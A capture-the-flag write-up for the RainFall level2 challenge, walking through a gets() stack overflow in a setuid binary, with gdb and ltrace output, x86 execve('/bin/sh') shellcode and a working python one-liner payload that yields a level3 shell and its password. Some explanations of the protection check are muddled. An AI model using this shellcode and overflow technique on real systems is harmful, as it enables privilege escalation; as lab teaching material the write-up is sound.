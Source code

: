 # Rainfall Level 2 Guide
This guide will walk you through the process of finding the password for the `level3` user.

## Procedure

### 1. Examine your environment
   
`id` : Shows user and group identities that you have.
```bash
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
```
`pwd` : Displays the current directory you are in.
```bash
/home/user/level2
```
`ls -la` : Lists files and their permissions in the current directory.
```bash
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
```

We can see that the `level2` binary has the `setuid` bit set, which means that it runs with the permissions of the owner of the file. In this case, the owner is `level3`. It executable by the `users` group, our current group.

We execute the binary to see what it does. It waiting for an input, print it after pressing enter, and quit.

```bash
level2@RainFall:~$ ./level2 
g
g
level2@RainFall:~$ ./level2 
a
a
```

### 2. Reverse engineering

We will use Ghidra to reverse engineer the binary.
You can find the analysis in [Ressources/ghidra_analyse_level2.c](Ressources/ghidra_analyse_level2.c), and the reconstructed C code in [source.c](source.c).

### 3. Analysis

We find a main function that calls a function `p()`.
The `p()` function reads a line from `stdin` into the buffer `buffer` with `gets()`.
It then checks if the return address is in the `0xb0000000` range.
Example: `0xb7e5f430 & 0xb0000000 = 0xb0000000`.
If it is, it will print the return address and exit.
Else, it will print the buffer with `puts`, and copy the buffer with `strdup`, but the result is not used.

```c
void p(void)
{
    uintptr_t unaff_retaddr;
	char buffer[76];

	fflush(stdout); // Flush the output buffer
	gets(buffer); // Read a line from stdin into buffer
	if ((unaff_retaddr & 0xb0000000) == 0xb0000000)
	{
		printf("(%p)\n", (void *)unaff_retaddr);
		exit(1);
	}
	puts(buffer);
    strdup(buffer);
}
```
`fflush(stdout)` ensuring that all data is written to the standard output.

The check `if ((unaff_retaddr & 0xb0000000) == 0xb0000000)` is a security measure to prevent buffer overflow attacks. It protects the `0xb0000000` range from being overwritten. This range is the range of the stack where the return address is stored.

But the program uses `strdup` to copy the buffer, which is a function that allocates memory on the heap. The heap is not protected by the check, so we can overwrite the return address by overflowing the buffer.

### 4. Analysis with ltrace

`ltrace` is a debugging utility in Linux used to display the calls a process makes to shared libraries.
```bash
level2@RainFall:~$ ltrace ./level2
[...]
fflush(0xb7fd1a20)                                                             = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5
)                                  = 0xbffff70c
puts(""
)                                                                       = 1
strdup("")                                                                     = 0x0804a008
+++ exited (status 8) +++
```
We can see that the `strdup` function always allocates memory (with `malloc`) at `0x0804a008`.

### 5. Shellcode injection

The shellcode injection is a technique used to exploit a buffer overflow vulnerability. It consists of injecting shellcode into the buffer to execute this code when the program returns.

We will inject a shellcode that will spawn a shell. We will use the following shellcode:
```c
execve("/bin/sh")
```
In machine language:
```c
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

### 6. EIP overwrite

`EIP` (Extended Instruction Pointer) is a register that contains the address of the next instruction to be executed. It is stored on the stack, and we can overwrite it by overflowing the buffer.

We will inject a string of 100 bytes to overflow the buffer and overwrite the return address with the address of our shellcode.
```bash
level2@RainFall:~$ gdb level2 
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Ba1Ca2Da3Ea4Fa5Ga6Ha7Ia8Ja9Kb0Lb1Mb2Nb3Ob4Pb5Qb6Rb7Sb8Tb9Uc0Vc1Wc2Xc3Yc4Zc5Ad6Be7Cf8Dg9Eh0Fi1Gj2H

Program received signal SIGSEGV, Segmentation fault.
0x37654236 in ?? ()
```
The program crashes with a segmentation fault.
We use `info registers eip` to get the value of the `EIP` register.
```bash
(gdb) info registers eip
eip            0x37654236	0x37654236
```
We can see that the `EIP` register is overwritten with `0x37654236`.

- 0x37 = 55, '7' in ASCII
- 0x65 = 101, 'e' in ASCII
- 0x42 = 66, 'B' in ASCII
- 0x36 = 54, '6' in ASCII

`0x37654236` is the ASCII representation of `7eB6`.
We can see this string in our input, after 80 characters.
***We want replace this string with the starting address of our shellcode***.
We know the address of return of `strdup` is `0x0804a008` (starting address of space allocated by `strdup`).
If we write our shellcode at the beginning of the buffer, ***the address of our shellcode will be the return address of `strdup`***.
***So we will replace the EIP address (`0x37654236`) with the return address of `strdup` (`0x0804a008`)***.

![EIP overwrite](Ressources/eip_overwrite.png)

### 7. Exploitation
Our buffer will be constructed as follows:
```c
buffer = shellcode + padding + strdup_address
```
```c
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
strdup_address = 0x0804a008 = "\x08\xa0\x04\x08"
```
`shellcode` has 21 bytes. So `padding` will be 80 - 21 = 59 bytes.
```c
padding = "\0x41" * 59
```
We construct our buffer:
```c
buffer = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\0x41" * 59 + "\x08\xa0\x04\x08"
```
We write our buffer in a file:
```bash
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x41" * 59 + "\x08\xa0\x04\x08"' > /tmp/buffer
```
Then, we use the file as input for the binary:
```bash
level2@RainFall:~$ cat /tmp/buffer - | ./level2
j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�

```
***Note:*** The `-` in the `cat` command is used to read from `stdin` after reading from the file. It indicates to `level2` that after reading the file, it should continue reading from `stdin`, for keep `level2` running and use the new op

We get a shell. With `whoami`, we can see that we are `level3`.
```bash
whoami
level3
```
We can read the password in the `level3` home directory.
```bash
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
^C
```

Congratulations!
We can now connect to the `level3` user with this password.
```bash
level2@RainFall:~$ su level3
Password:
level3@RainFall:~$
```

NOTE POUR MOI:
EN GROS, strdup alloue de la memoire pour un buffer, en fonction de la taille de ce buffer. La taille du buffer est definie dans notre cas a 76. Si on ecrit plus de char dans le buffer que la taille max du buffer, on va continuer a ecrire dans une partie de la memoire non allouee, et donc ecraser des donnees. Dans notre cas, on va ecraser l'EIP.
L'EIP est l'adresse de la prochaine instruction a executer.
Si on l'ecrase, on peut la remplacer par l'adresse d'une autre instruction, et donc executer cette instruction a la place de celle prevue. 
Dans notre cas, on va remplacer l'EIP par l'adresse de notre shellcode, pour executer notre shellcode.
Vu que l'on a mis notre shellcode au debut du buffer, il fait partie des donnees allouees par strdup. Donc l'adresse de retour de strdup est l'adresse de debut de notre shellcode !
Donc nous voulons mettre l'adresse de retour de strdup dans l'EIP.
Nous connaissons l'adresse de retour de strdup car on l'a vu avec ltrace, c'est 0x0804a008.
Donc on construit notre buffer de la maniere suivante:
buffer = shellcode + padding + strdup_address